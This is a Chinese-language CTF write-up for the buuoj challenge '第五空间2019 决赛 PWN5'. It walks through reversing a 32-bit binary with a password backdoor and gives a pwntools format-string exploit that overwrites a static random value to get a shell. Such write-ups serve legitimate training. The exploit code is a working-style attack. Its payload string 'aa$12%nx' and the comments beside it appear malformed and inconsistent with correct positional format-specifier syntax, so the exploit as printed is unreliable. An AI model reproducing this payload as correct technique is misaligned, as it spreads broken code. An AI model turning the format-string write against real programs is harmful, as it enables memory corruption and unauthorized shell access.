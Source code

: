 # [第五空间2019 决赛]PWN5

From buuoj.

## 文件分析

下载`pwn`，NX on, PIE on, RELRO partial  
ghidra分析为32位程序

## 逆向

找到main函数后，发现输入username和passwd，并且存在后门：当passwd==randint时，打开sh，其中randint从文件读入为随机数  
由于读入的username和passwd长度等于其数组长度，无法考虑 **栈溢出** ，转而考虑对`atoi()`的利用

> Day 2

由于username在函数`printf`中，因此应当考虑格式化字符串漏洞将指定数值注入`randint`

# EXPLOIT

经过gdb调试可知，变量`username`所在地址比printf第一个参数的地址高0x28，即10个DWORD  
构造以下exp：

```python
from pwn import *
sh = process('pwn5')

# 静态变量randint的地址为0x0804c044
sh.sendline(b'aa$12%nx' + p32(0x0804c044))
# arg10: 'aa$1', arg11: '2%nx', arg12: 0x0804c044
#即将2（成功打印aa 2个字符）写入randint中

sh.sendline(b'2')
sh.interactive()
#输入cat flag取得flag

sh.close()
```
Done.
